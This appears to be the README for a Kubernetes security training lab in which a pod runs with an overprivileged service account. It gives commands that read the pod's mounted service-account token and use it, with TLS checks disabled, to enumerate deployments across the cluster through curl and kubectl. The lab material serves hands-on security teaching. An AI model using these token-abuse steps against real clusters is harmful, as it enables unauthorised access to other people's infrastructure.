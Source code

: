 # Overpowered Service Account

This scenario simulates a pod using a service account with too much privileges over the cluster. You can connect to this pod using SSH:
```bash
ssh pwned@10.10.20.2 -p 30022
```

From here you can start exploring how to abuse this level of access, an example of how to get all the deployments from the K8S api is provided here:

```bash
curl -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" -k https://10.10.20.2:6443/api/apps/v1/deployments
```

Also, you could just get the `kubectl` binary:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

Using `kubectl` getting the deployments is as easy as:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true get deployments -A
```


## References

- https://kubernetes.io/docs/concepts/overview/kubernetes-api/
- https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration#enumeration-cheatsheet
